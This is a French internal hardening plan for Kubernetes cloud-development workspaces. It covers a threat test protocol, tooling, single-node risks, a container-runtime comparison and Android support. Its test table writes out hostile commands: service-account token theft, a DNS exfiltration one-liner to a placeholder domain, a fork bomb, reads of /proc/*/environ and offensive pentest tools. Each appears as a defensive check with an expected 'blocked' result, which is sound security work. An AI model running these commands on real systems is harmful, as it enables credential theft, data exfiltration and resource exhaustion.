| V-20 | Cilium filtre-t-il par SNI sur 8443 ? | Règle de test `toPorts.serverNames` (ou `rules.http.host` sur 8000) sur le namespace de test, puis `curl` vers un host autorisé et un interdit. | L'autorisé passe, l'interdit est coupé. |
| V-21 | La chaîne KubeArmor → ClickStack marche-t-elle ? | Une écriture dans `/usr/bin` dans le namespace de test. | L'événement apparaît dans ClickStack en moins de 60 secondes. |
| V-22 | Renovate repère-t-il les devfiles ? | `renovate --dry-run=full` avec le custom manager, sur `weebo-che-project`. | Il propose d'épingler le parent et de monter les images. |

### 2. Protocole complet : les menaces à bloquer

Le témoin exécute ces tests depuis un vrai workspace, avec les droits d'un développeur, c'est-à-dire le scénario « dépendance ou agent compromis ». La colonne Phase indique quand le test devient obligatoire. Avant cette phase, l'échec attendu est documenté comme connu.

| ID | Menace | Action depuis le workspace | Attendu | Phase |
|---|---|---|---|---|
| **Images et chaîne d'approvisionnement** |  |  |  |  |
| T-01 | Image tirée directement d'un registre | DevWorkspace avec un composant `docker.io/library/alpine`, `alpine`, `quay.io/…`, `ghcr.io/…` | Réécrit vers `registry.pkg.weebo.poc/<cache>/…` puis admis. Le log du webhook montre le match. | actuel |
| T-02 | Registre non couvert | Image `evil.example:5000/x`, `localhost:5000/x`, une IP en guise de registre | Refusée par imagePolicy. | actuel |
| T-03 | Contournement de la réécriture | Image par digest seul, en majuscules, avec un double slash, avec `index.docker.io` ou `registry-1.docker.io` | Normalisée et réécrite, ou refusée. Jamais admise en direct. | actuel |
| T-04 | Image non signée | Image de workspace non signée, ou signée par une autre identité | Refusée par l'`ImageValidatingPolicy`. | 10 |
| T-05 | Image vulnérable | `trivy image` et `grype` sur l'image du workspace et les sidecars du catalogue | Aucune CVE critique corrigeable de plus de 7 jours. | 9 |
| **Intégrité des contrôles** |  |  |  |  |
| T-06 | DWOC imposé par le devfile | Attribut `controller.devfile.io/devworkspace-config` vers un DWOC maison | Remplacé par le DWOC épinglé. | actuel |
| T-07 | Profil réseau auto-accordé | Avec le token : patch de l'attribut `hardening.weebo.io/network-profiles: [internet]` du DevWorkspace | Refusé ou ignoré (`onNotGranted`). Pas de CNP `internet` créée. | 3 |
| T-08 | Modification d'une policy gérée | Supprimer ou modifier `weebo-base` (CNP), une KubeArmorPolicy ou le quota du namespace | Refusé par policyGuard. | actuel |
| T-09 | Ajout d'une policy permissive | Créer une CNP `allow-all` dans le namespace | Refusée, car l'identité n'est pas dans `allowedIdentities`. | actuel |
| T-10 | Webhook indisponible | Mettre le webhook à 0 réplique, puis démarrer un workspace | Démarrage refusé (fail-closed), jamais admis sans contrôle. Avec 2 répliques, supprimer un pod ne change rien. | 1 |
| T-11 | Changement d'UID | Pod ou composant avec `runAsUser: 0`, puis `runAsUser: 1234`, puis un UID hors de la plage du namespace | Refusé. | 5 |
| T-12 | Annotation d'accord posée par l'utilisateur | Annoter son propre namespace avec `hardening.weebo.io/dwoc`, `uid-range` ou un accord `open` | Refusé : seuls l'opérateur et l'admin peuvent la poser. | 3 |
| **Identité et API Kubernetes** |  |  |  |  |
| T-13 | Vol du token | `cat /var/run/secrets/kubernetes.io/serviceaccount/token` depuis un terminal, un script `postinstall` npm, et un Node lancé par mise | Permission denied, et événement KubeArmor. | 3 |
| T-14 | Ce que le token permet | Avec le token de l'IDE (test admin) : `kubectl auth can-i --list`, puis `kubectl-who-can` et `rbac-tool` sur le ServiceAccount | Aucun droit hors du namespace. La liste correspond au rôle attendu. | 3 |
| T-15 | Accès à un autre namespace | Avec le token : lire les Secrets et les pods de `dev-ws-batleforc` depuis le témoin | 403. | actuel |
| T-16 | Énumération offensive | Peirates depuis le témoin, et les techniques `k8s.*` de Stratus Red Team qui s'appliquent : vol de token, dump de Secrets, pod privilégié, hostPath, ClusterRole admin | Toutes échouent. | 6 |
| **Réseau sortant** |  |  |  |  |
| T-17 | Sortie Internet | `curl https://example.com`, `curl http://1.1.1.1`, `nc -vz 8.8.8.8 443` | Coupé. | actuel |
| T-18 | Contournement FQDN par IP | Résoudre `github.com` puis joindre une autre IP sur 443 avec un faux en-tête `Host` | Coupé : Cilium n'autorise que les IP apprises par le proxy DNS pour ce nom. | actuel |
| T-19 | Exfiltration par DNS | `dig $(head -c 30 /etc/hostname \| base32).exfil.example`, une requête TXT, et un outil de tunnel DNS (iodine) en mode client | REFUSED, et une trace Hubble. | 3 |
| T-20 | Services de la plateforme | `curl` vers `argocd`, `openbao`, `clickstack`, `forgejo` admin, `authentik` admin en `*.weebo.poc`, puis en Service interne | Coupé (règle L7 et SNI), sauf les hosts autorisés. | 3 |
| T-21 | che-server et gateway | Appels à l'API che-server hors des chemins utilisés par l'IDE, et énumération des workspaces des autres | Refusé. | 10 |
| T-22 | Scan latéral | `nmap -sT` sur le CIDR des pods et des Services | Rien de joignable hors des destinations autorisées. | actuel |
| T-23 | ICMP et sockets bruts | `ping`, puis `python -c "socket.socket(AF_INET,SOCK_RAW,1)"` | Refusé (KubeArmor `net_raw`, et PSA `restricted` qui retire la capability). | 5/6 |
| T-24 | Grille automatique | `netassert` avec la matrice attendue (source × destination × port), et `cilium connectivity test` sur le namespace de test après chaque montée de version de Cilium | 100 % conforme. | 1 |
| **Exposition entrante** |  |  |  |  |
| T-25 | Endpoint d'un autre utilisateur | Ouvrir l'endpoint du témoin avec le compte d'un autre utilisateur, puis sans être connecté | Refusé par l'endpoint-gateway (accès `private`). | actuel |
| T-26 | Contournement de endpoint-auth | Ingress écrit à la main sans middleware, avec un autre host, ou un middleware retiré par patch | Refusé ou corrigé par le webhook (mutation et guard). | actuel |
| T-27 | Endpoint anonyme | Demander `open` sans annotation admin | Retombe sur `private`. Avec l'accord, une alerte part. | 3 |
| T-28 | Exposition résiduelle | `nuclei` (templates exposures, misconfiguration, default-logins) sur `*.cde.dev.weebo.poc` depuis l'extérieur | Aucun résultat au-dessus de « info ». | 1 |
| **Exécution et évasion** |  |  |  |  |
| T-29 | Pod privilégié | Composant avec `privileged: true`, `hostPID`, `hostNetwork`, un `hostPath: /`, ou `capabilities.add: [SYS_ADMIN]` | Refusé par PSA. | actuel / 5 |
| T-30 | Inventaire d'évasion | `cdk evaluate --full`, `amicontained` et `linpeas.sh` dans le workspace (binaires SUID, sudo, capabilities, fichiers inscriptibles, sockets, montages) | Aucune voie d'évasion. Capabilities minimales, seccomp actif, user namespace actif. | 5 |
| T-31 | Persistance dans l'image | Écriture dans `/usr/bin` et `/usr/sbin`, puis `chmod u+s` sur un binaire | Refusé par KubeArmor, avec un événement. | 6 |
| T-32 | Lecture de secrets d'autres processus | `cat /proc/*/environ` et `/proc/*/cmdline` d'un processus de l'IDE | Refusé. | 6 |
| T-33 | Comportements suspects | Falco `event-generator` (actions du jeu `syscall` qui s'appliquent : reverse shell, lecture de fichiers sensibles, binaire écrit puis exécuté) | Chaque action est bloquée, ou au minimum détectée dans ClickStack. | 6 |
| T-34 | Évasion par le noyau ou le moteur | `linux-exploit-suggester.sh` (LES) dans le workspace : il croise la version du noyau Talos et sa configuration avec les exploits publics. Puis une revue mensuelle des CVE runc, youki et containerd, et les PoC publiés pour les plus récentes, sur le namespace jetable. | Pas de PoC fonctionnel sur la version déployée. | 5 |
| **Épuisement des ressources** |  |  |  |  |
| T-35 | Mémoire et CPU | `stress-ng --vm 4 --vm-bytes 90% --cpu 12 -t 120s` | OOM ou throttling limités au workspace. La plateforme reste réactive (latence de l'apiserver surveillée). | 4 |
| T-36 | Fork bomb | `:(){ :\|:& };:`, sous `timeout` | Contenu par `pids.max` ; le nœud reste sain. | 4 |
| T-37 | Disque | Remplir le PVC, l'éphémère (`/tmp`) et les inodes (des millions de petits fichiers). Créer N PVC avec le token. | Bloqué par le quota (`requests.storage`, nombre de PVC, `ephemeral-storage`). Les autres volumes Longhorn ne sont pas touchés. | 4 |
| T-38 | Trop de workspaces | Démarrer plus de workspaces que la limite par utilisateur | Refusé par Che ou par le quota. | 4/10 |
| **Outils de team et sidecars** |  |  |  |  |
| T-39 | Outil d'une autre team | Depuis un workspace d'une autre team : `buildctl` vers le BuildKit de `weebo`, puis `adb connect` vers ses émulateurs | Coupé par le réseau, et refusé en mTLS pour BuildKit. | 7 |
| T-40 | BuildKit comme tremplin | Un `RUN` qui tente une sortie Internet, la lecture du token du pod BuildKit, et des montages `--mount=type=bind` hors du contexte | Sortie limitée comme un workspace, pas de token monté, pas d'accès hors du contexte de build. | 7 |
| T-41 | Démarrage et arrêt à la demande | Aucun demandeur, puis un demandeur, puis un arrêt | 0, puis 1, puis 0 réplique après le délai. Pas d'outil qui reste allumé sans demandeur. | 7 |
| T-42 | Sidecar hors règles | Composant devfile privilégié, avec une image hors angos, ou sans limites | Mêmes refus que T-01, T-29 et T-11. Le sidecar n'a aucun passe-droit. | 7 |
| **Secrets, audit et cycle de vie** |  |  |  |  |
| T-43 | Secrets dans les dépôts | `gitleaks detect` et `trufflehog git` sur `weebo-che-project`, WeeboDevImage et les dépôts de devfiles | Aucun secret. | 8 |
| T-44 | Clé LLM dans le workspace | Chercher des clés `sk-…` dans l'environnement et le home. Appeler le fournisseur sans passer par la passerelle. | Aucune clé, et l'appel direct est coupé. | 10 |
| T-45 | Accès admin non tracé | `kubectl exec` d'un admin dans le témoin, puis lecture d'un Secret | Événements d'audit dans ClickStack, et une alerte « admin dans le workspace d'un autre ». | 10 |
| T-46 | Compte parti | `batleforc-test` passé en `active: false`, puis essais avec ses anciens PAT, sa session et ses endpoints | Tout est refusé tout de suite. Après le délai de conservation, plus aucun objet ne porte son nom. | 9 |
| T-47 | Devfile obsolète | Devfile sans `weebo.io/platform-contract`, avec un parent sur une branche, puis avec un parent marqué vulnérable | Avertissement, puis avertissement, puis refus. | 8 |
| **Résilience et posture** |  |  |  |  |
| T-48 | Reboot à froid | Reboot du nœud (fenêtre de maintenance), selon la check-list du runbook | Toute la plateforme et les workspaces reviennent sans intervention, sans cycle d'admission. | 1 |
| T-49 | Repli youki → runc | Annotation `hardening.weebo.io/dwoc: runc` sur le namespace de test | Le workspace redémarre sous runc, et les autres ne sont pas touchés. | 5 |
| T-50 | Posture globale | `kubescape scan` (cadres NSA-CISA et MITRE) et `trivy k8s --report summary`, filtrés sur les namespaces de workspace et d'outils | Pas de régression par rapport à la campagne précédente. Chaque échec restant est justifié dans la page de campagne. | 1 |

### Automatisation et cadence

- **À chaque PR weebo-si-hardening :** les tests d'admission (T-01 à T-03, T-06 à T-12, T-26, T-29, T-42, T-47) en suites Kyverno Chainsaw, dans la suite `weebo-si-e2e` existante sur kind. C'est le même outil pour décrire « j'applique ceci, j'attends un refus ».
- **En continu sur le cluster :** le workspace témoin (phase 1) lance chaque nuit les tests qu'on peut automatiser depuis un workspace : T-13, T-15, T-17 à T-20, T-22 à T-24, T-31, T-32, T-36. Toute réussite d'une attaque déclenche une alerte ClickStack.
- **Chaque semaine :** T-05 (Trivy et Grype), T-28 (nuclei depuis l'extérieur), T-50 (Kubescape et Trivy k8s), T-43 (gitleaks), avec le résultat comparé à la semaine précédente.
- **Après chaque montée de version** de Talos, Cilium, KubeArmor, Che, du DWO, de weebo-si ou de youki : la validation amont concernée (par exemple V-02 à V-07 pour youki ou Talos), plus `cilium connectivity test` et T-48 si c'est Talos.
- **Chaque mois, à la main :** une campagne complète de 50 tests avec Peirates, Stratus Red Team, CDK, linPEAS, LES et event-generator (T-14, T-16, T-30, T-33, T-34). LES est aussi relancé après chaque montée de version de Talos., et une page de campagne dans la doc.
- **Avant chaque passage en `Enforce` d'une phase :** tous les tests marqués avec cette phase passent sur `batleforc-test`.

### Projets de référence

| Projet | Sert à | Tests | Remarque |
|---|---|---|---|
| cilium/cilium-cli | `cilium connectivity test` : la suite officielle de validation du réseau et des policies, y compris FQDN et L7 | V-04, V-20, T-24 | Elle crée ses propres namespaces : à lancer dans une fenêtre dédiée. |
| controlplaneio/netassert | Tests réseau déclaratifs : une matrice source → destination → port attendue | T-17 à T-22, T-39 | Le format idéal pour la matrice du témoin. |
| kyverno/chainsaw | Tests e2e Kubernetes déclaratifs : appliquer, attendre un état, une erreur ou un refus | tous les tests d'admission | Remplace kuttl. Il fonctionne sans Kyverno, sur n'importe quel webhook. |
| kubescape/kubescape | Posture du cluster selon NSA-CISA, MITRE et CIS, avec score et historique | T-50 | Projet CNCF. Mieux adapté à Talos que kube-bench. |
| aquasecurity/trivy | Scan des images, des manifests et du cluster (`trivy k8s`), SBOM | T-05, T-50 | angos scanne déjà : Trivy sert à recouper. |
| anchore/syft et anchore/grype | SBOM et vulnérabilités, une seconde source | T-05 | Syft produit le SBOM attaché à la signature cosign. |
| sigstore/cosign | Signature et vérification des images | T-04 | Keyless via l'OIDC de la CI. |
| inguardians/peirates | Pentest Kubernetes depuis un pod : vol de tokens, escalade, mouvement latéral | T-14, T-16 | Exactement le point de vue d'un workspace compromis. |
| DataDog/stratus-red-team | Émulation de techniques d'attaque, avec un module Kubernetes (`k8s.*`) | T-16 | Chaque technique sait se lancer et se nettoyer : idéal pour des campagnes répétables. |
| cdk-team/CDK | Inventaire des voies d'évasion de conteneur et exploitation | T-30 | Seulement `evaluate` en routine. Les exploits, uniquement dans le namespace jetable. |
| The-Z-Labs/linux-exploit-suggester (LES) | Liste les exploits noyau qui pourraient s'appliquer, d'après la version et la configuration du noyau (y compris `/proc/config.gz` quand il est lisible) | T-34 | Le noyau est partagé avec le nœud : un exploit noyau, c'est une évasion. Le relancer après chaque montée de version de Talos. Ses résultats sont des candidats à vérifier, pas des preuves : beaucoup supposent un accès que le workspace n'a pas. |
| peass-ng/PEASS-ng (linPEAS) | Énumération des voies d'escalade de privilèges depuis un shell : SUID, capabilities, sudo, cron, fichiers et sockets inscriptibles, secrets qui traînent | T-30, T-32 | Il est très bruyant : c'est aussi un bon test de détection KubeArmor (T-33). À ne lancer que dans le témoin. |
| genuinetools/amicontained | Ce que voit le conteneur : capabilities, seccomp, user namespace, AppArmor | T-30, V-05 | Plus maintenu, mais toujours fiable pour l'inventaire. |
| falcosecurity/event-generator | Génère des comportements suspects connus pour tester la détection | T-33 | Fait pour Falco, mais les actions sont génériques et valent aussi pour KubeArmor. |
| kubearmor/kubearmor-client | `karmor probe`, `logs`, `recommend` | V-03, V-07, V-08 | `recommend` peut proposer des règles à partir de l'image. |
| aquasecurity/kubectl-who-can et alcideio/rbac-tool | Qui peut faire quoi : analyse RBAC dans les deux sens | T-14 | À relancer après chaque montée de version de Che ou du DWO, qui apportent leurs rôles. |
| projectdiscovery/nuclei | Scan d'exposition par templates | T-28 | Depuis l'extérieur, comme un attaquant d'Internet. |
| ColinIanKing/stress-ng | Charge CPU, mémoire, disque, pids | T-35 à T-37 | Toujours sous `timeout`. |
| gitleaks/gitleaks et trufflesecurity/trufflehog | Secrets dans les dépôts | T-43 | gitleaks en pre-commit, trufflehog en campagne (il vérifie si les secrets trouvés sont encore valides). |
| MITRE ATT&CK Containers et Microsoft Threat Matrix for Kubernetes | Les référentiels de techniques | tous | Ils servent à repérer les angles morts du protocole. |

Écartés volontairement : kube-hunter (archivé par Aqua), kube-bench (les contrôles CIS supposent des fichiers d'hôte que Talos n'expose pas : Kubescape couvre le besoin), Kubernetes Goat (environnement de formation volontairement vulnérable, à ne jamais déployer sur ce cluster). Les images de ces outils passent par angos et sont épinglées par digest, comme le reste.

## Mono-nœud : faiblesses acceptées et passage multi-nœud

Le cluster tourne sur un seul nœud (`talos-r2k-rp0` : 12 CPU, 64 Gio, control plane et worker à la fois). C'est un choix assumé pour l'instant. Les faiblesses ci-dessous sont **acceptées** et ne sont pas traitées par le plan, mais elles doivent être écrites quelque part pour que personne ne les découvre par surprise. Le passage au multi-nœud doit être documenté dès maintenant.

| Faiblesse acceptée | Conséquence | En multi-nœud |
|---|---|---|
| Un seul etcd et un seul apiserver | Un reboot ou une mise à jour Talos coupe tout, workspaces compris. | 3 nœuds control plane, pour qu'etcd garde son quorum. |
| Longhorn à 1 réplique (`numberOfReplicas: 1`), plus 4 PVC en `local-path` | Un disque perdu, ce sont des données perdues. Les backups S3 (phase 10) sont la seule protection. | 3 répliques Longhorn, avec anti-affinité sur les nœuds. Sortir de `local-path` ce qui doit survivre à un nœud. |
| Tout partage le même noyau | Une évasion depuis un workspace donne accès au nœud qui porte aussi OpenBao, Argo CD et etcd. youki, les user namespaces et KubeArmor réduisent ce risque, sans l'éliminer. | Un pool de nœuds dédié aux workspaces (taints et `nodeSelector`/`tolerations` du CheCluster), séparé de la plateforme. |
| Webhooks et opérateurs en 1 réplique | Pendant un redémarrage, les admissions sont bloquées (phase 1). | 2 répliques ou plus, avec PDB et `topologySpreadConstraints` sur les nœuds. |
| Drain d'upgrade Talos désactivé (`--drain=false`, bloqué par les PDB) | Une mise à jour interrompt les pods au lieu de les déplacer. | Un vrai drain. Les PDB doivent alors permettre de déplacer les pods, sans exiger qu'ils restent sur le nœud. |
| Voisins bruyants | Un workspace, un BuildKit ou un émulateur saturent la machine qui fait tourner la plateforme. | Les outils de team privilégiés (BuildKit, émulateurs avec `/dev/kvm`) sur un pool dédié. |

**À documenter : un runbook `passage-multi-noeud.mdx`** dans `0.docs/content/docs/runbooks/`, avec les bonnes pratiques à respecter dès aujourd'hui pour que la bascule ne demande pas de tout refaire :

- **Talos et Pulumi :** l'ajout de nœuds via `1.pulu-init`, un schematic identique sur chaque nœud (youki, crun, fuse3…), et les pièges déjà connus (pas de refresh, pas de reboot `machine.files` pendant un upgrade).
- **Pools de nœuds :** control plane (3), plateforme, workspaces, et outils privilégiés avec KVM. Il faut définir dès maintenant des labels et des taints même s'il n'y a qu'un nœud, pour que les manifests les portent déjà.
- **Réseau :** Cilium reste en tunnel vxlan, ce qui ne change rien à l'ajout de nœuds. Ajouter le chiffrement entre nœuds (WireGuard Cilium), puisque le trafic des workspaces passera alors sur le réseau physique. Rejouer l'IP source réelle et Netbird derrière le LoadBalancer.
- **Stockage :** monter les répliques Longhorn à 3 et prévoir où vont les volumes `local-path`. Les workspaces restent en RWO, puisque RWX est incompatible avec `hostUsers: false`.
- **Charges :** tout opérateur et tout webhook a 2 répliques, une PDB et une `topologySpreadConstraints`. Aucun manifest ne suppose un seul nœud (pas de `hostPath` partagé, pas de nom de nœud en dur).
- **Sécurité :** KubeArmor et les extensions Talos sur chaque nœud. Les policies weebo-si ne changent pas, elles suivent les pods.
- **Ordre de bascule :** ajouter les control planes, puis les workers, monter les répliques, déplacer les workspaces vers leur pool, et réactiver le drain d'upgrade en dernier.

## Comparatif des moteurs de conteneur

Seuls les moteurs disponibles en extension Talos officielle (siderolabs/extensions) sont comparés. Aujourd'hui, tous les pods tournent avec runc. Wasmedge et spin sont exclus : ils exécutent du WebAssembly, pas un environnement de développement Linux.

| Moteur | Isolation | Coût pour un workspace | Compatibilité dev | KubeArmor | Cilium | user namespaces | Prérequis |
|---|---|---|---|---|---|---|---|
| **runc**actuel | Namespaces et cgroups, noyau partagé | Référence | Totale | Complet | Complet | Oui | Aucun |
| **crun** | Identique à runc | Démarrage et mémoire un peu meilleurs | Totale | Complet | Complet | Oui | Extension `crun` |
| **youki** | Identique à runc. Le moteur lui-même est écrit en Rust, ce qui élimine ses bugs mémoire (runc a eu plusieurs CVE d'évasion : 2024-21626, 2025-31133/52565/52881). | Proche de crun | Bonne, mais moins éprouvée en production Kubernetes | Complet | Complet | Oui | Extension `youki` |
| **gVisor**runsc | Noyau en espace utilisateur (Sentry) qui intercepte les appels système. Le noyau du nœud est très peu exposé. | Sensible sur les tâches qui font beaucoup d'appels système ou d'IO : `npm install`, compilation, git, surveillance de fichiers | Bonne, avec des trous : certains appels système, ptrace, `/proc` émulé, FUSE | Aveugle : il ne voit que le processus Sentry | L3/L4/L7 OK. Le socket-LB doit rester limité au namespace du nœud (`hostNamespaceOnly: true`, déjà le cas). | À vérifier, et moins utile puisque Sentry isole déjà | Extension `gvisor`. Pas besoin de KVM (plateforme systrap). |
| **Kata Containers** | Une micro-VM par pod, avec son propre noyau. C'est la meilleure isolation de la liste. | Environ 100 Mo et plus de mémoire par pod, démarrage plus lent. Les volumes partagés via virtio-fs sont plus lents. Un volume en bloc passe directement. | Très bonne : un vrai noyau Linux | Aveugle : ce qui tourne dans la VM échappe au noyau du nœud | OK, avec la même condition socket-LB (déjà remplie) | Sans objet : la VM sépare déjà les UID | Extension `kata-containers`, et **`/dev/kvm` sur le nœud** (machine physique ou virtualisation imbriquée, à vérifier) |

- **Décision (23/11) : youki par défaut pour les workspaces, avec repli sur runc.** On garde tout ce qui marche avec un moteur classique (KubeArmor, `hostUsers: false`, l'UID par namespace) et on retire les bugs mémoire du moteur, d'où sont venues les dernières CVE d'évasion de runc. Le reste du cluster reste sur runc. Mise en œuvre : étape « Workspaces sur youki » en phase 5.
- **Kata : piste pour plus tard, pas pour maintenant.** Il servira pour les workspaces à risque (agent IA en mode autonome, code tiers non relu), via une entrée `kata` du catalogue `dwocPin`. Il faudra alors choisir entre l'isolation du nœud et le contrôle KubeArmor. Le prérequis `/dev/kvm` est rempli (confirmé le 23/11). Il ne manque que l'extension `kata-containers`.
- **gVisor : écarté.** Kata couvre le même besoin d'isolation, et gVisor coûte trop cher sur npm, la compilation et Gradle.
- **crun : écarté.** Il ne change rien à la sécurité, et youki apporte en plus la sécurité mémoire.

Vérifié : `/dev/kvm` est présent sur le nœud, l'extension youki est installée, et le CRD du DWOC accepte `runtimeClassName` et `hostUsers`. Les surcoûts annoncés sont des ordres de grandeur, pas des mesures faites sur ce cluster.

## Préparer le dev mobile Android

Ce n'est pas pour tout de suite. L'idée est d'éviter que les choix de sécurité ci-dessus rendent Android impossible plus tard. iOS n'est pas couvert : il exige macOS, ce qui est hors cluster.

#### Le build : SDK, Gradle et dépendances

**Problème** : Un build Android télécharge depuis Google Maven (`maven.google.com`), le Gradle Plugin Portal, la distribution Gradle (`services.gradle.org`) et le SDK (`dl.google.com`). Aujourd'hui, aucun de ces hosts n'est autorisé en sortie, et c'est voulu.

**Piste** :

- Le SDK et le wrapper Gradle sont figés dans une image `weebodevimage` Android, mise en cache par angos. `sdkmanager` ne sait pas passer par un proxy Maven, donc l'image est la seule voie propre.
- Les dépendances passent par BatleHub, qui sert déjà de proxy Maven pour `repo1.maven.org`. Il faut lui ajouter Google Maven et le Plugin Portal comme upstreams.
- `registryConfig` livre ensuite un `init.gradle` qui pointe vers BatleHub, comme le `.npmrc` pour npm. Il faudra vérifier que l'opérateur prend en charge cet écosystème, sinon c'est une évolution de weebo-si à prévoir.
- Le temps de mettre ça en place, un profil réseau `android` limité à ces quelques hosts, accordé à la team et pas mis par défaut.

#### Les ressources

**Problème** : Le daemon Gradle, Kotlin et l'émulateur demandent de l'ordre de 8 à 16 Gio de RAM. Le SDK, les caches Gradle et les images système occupent des dizaines de Gio de disque. Sur un nœud de 64 Gio, deux workspaces Android lancés en même temps se voient tout de suite.

**Piste** : Un profil `android` dans `resourceQuotas` (d'où l'intérêt de l'activer avant), une entrée `android` dans le catalogue `dwocPin` (ressources et stockage par défaut plus gros), et un nombre maximum de workspaces Android lancés en même temps.

#### L'émulateur : trois options

**Recommandé : pool de team** : Les émulateurs tournent dans le namespace d'outils de la team (phase 7) et sont joints par `adb` en réseau. Le workspace reste durci, sans `/dev/kvm` et sans RAM supplémentaire.

**Émulateur dans le workspace** : C'est le plus simple pour le développeur, mais c'est le moins sûr. Il faut `/dev/kvm` dans le pod, via un device plugin (par exemple `generic-device-plugin`) qui l'expose comme une ressource demandée par le DWOC `android`. L'écran est diffusé dans le navigateur (noVNC ou ws-scrcpy) derrière un endpoint protégé par `endpointAuth`. À tester : Pas de GPU : le rendu logiciel suffit pour du dev, mais il est lent.

- les droits sur `/dev/kvm` avec `hostUsers: false` et un UID par namespace (le groupe `kvm` du nœud n'est pas traduit) ;
- une règle KubeArmor qui autorise `/dev/kvm` au seul binaire de l'émulateur ;
- le passage de l'appareil sous youki.

**Appareils physiques** : `adb` se connecte en réseau à un téléphone de l'utilisateur à travers Netbird. C'est la meilleure fidélité, et il n'y a besoin ni de KVM ni de privilèges. Il faut un profil réseau qui n'ouvre que le port adb vers les pairs Netbird de l'utilisateur, ce qui suppose de résoudre la question de l'IP source Netbird (les pairs arrivent avec l'IP du pod exit-node).

**Écarté : Redroid** : Android tourne dans un conteneur, mais il exige les modules noyau binder et ashmem sur Talos, ainsi qu'un pod privilégié. C'est l'inverse de tout le plan.

#### Conséquences sur les choix actuels

**KVM** : `/dev/kvm` est présent sur le nœud (confirmé le 23/11). L'émulateur dans le workspace et Kata sont donc réalisables. Il reste à exposer le périphérique aux pods avec un device plugin.

**Kata** : Un émulateur dans une micro-VM Kata demande de la virtualisation imbriquée. Les workspaces Android resteront donc sur youki, ou sur runc en repli, et pas sur Kata.

**Hardening** : Tout ce qu'il faut ouvrir pour Android doit passer par une entrée de catalogue (`dwocPin`, `networkProfiles`, `resourceQuotas`) accordée à la team, jamais par la base. Les autres workspaces ne gagnent rien.

Sources : `task k` sur le cluster (labels du namespace, CNP, KubeArmorPolicy, Ingress, RoleBindings, LimitRange, WeeboSiConfig, Team et User). Je n'ai pas pu lire le securityContext du pod parce que le workspace était arrêté.
